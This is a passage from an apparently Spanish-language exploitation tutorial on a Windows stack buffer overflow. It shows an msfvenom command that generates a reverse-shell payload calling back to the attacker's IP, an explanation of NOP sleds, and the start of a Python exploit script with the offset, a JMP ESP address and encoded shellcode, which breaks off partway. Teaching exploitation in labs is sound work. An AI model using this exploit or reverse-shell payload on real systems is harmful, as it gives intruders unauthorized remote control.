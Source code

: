 Como no ha encontrado ningún *bad char* adicional, podemos proseguir con la generación del *shellcode* el cual, nos enviará una consola a nuestra máquina de atacantes. La *reverse shell* la generaremos con `msfvenom`.

```bash
msfvenom -p windows/shell_reverse_tcp --platform windows -a x86 -e x86/shikata_ga_nai LHOST=NUESTRA_IP LPORT=NUESTRO_PUERTO -b "\x00" EXITFUND=thread -f c
```

![generacion de la reverse shell con los bad chars correspondientes](/assets/img/generacion-de-la-reverse-shell-con-los-bad-chars-correspondientes.png)

El contenido generado por `msfvenom` lo reemplazaremos por el *shellcode* dentro del script.

## **Not Operation Code (NOP)**

En principio, ya estaría listo para ejecutarse, pero hay un detalle adicional que debemos tener en cuenta. Antes de que el *shellcode* se ejecute, hay que dar un tiempo al programa para que termine las tareas anteriores que tenga pendientes de hacer. Para hacer esto, tenemos lo que se le llaman *Not Operation Code* (*NOP*) 

Los *Not Operation Code* o *NOP*, son instrucciones en ensamblador que no realizan ninguna acción significativa durante la ejecución de un programa, más allá de consumir un ciclo de reloj del procesador o un pequeño espacio en la memoria. El valor con el que se le representa es el *0x90* y antes de ejecutar el *shellcode* habría que añadir unos cuantos *NOP* para que se ejecute correctamente y nos envíe la *reverse shell* correctamente. 

## **Consiguiendo acceso a la máquina víctima**

El script final, quedaría de la siguiente manera.

```python
# Librerias
import socket
from struct import pack

# Variables Globales
ip = "127.0.0.1" # Dirección IP destino
port = 8888 # Puerto destino

offset = b"A"*1052 # Definiendo el offset antes de llegar al EIP
eip = pack("<L", 0x006E3D7F) # Direccion de memoria JMP ESP representada en little endian
shell_code = ( # Definiendo el shell code que nos enviara la reverse shell
b"\xd9\xe9\xd9\x74\x24\xf4\x5e\x29\xc9\xba\x50\x4b\x82\xe9"
b"\xb1\x52\x83\xee\xfc\x31\x56\x13\x03\x06\x58\x60\x1c\x5a"
b"\xb6\xe6\xdf\xa2\x47\x87\x56\x47\x76\x87\x0d\x0c\x29\x37"
```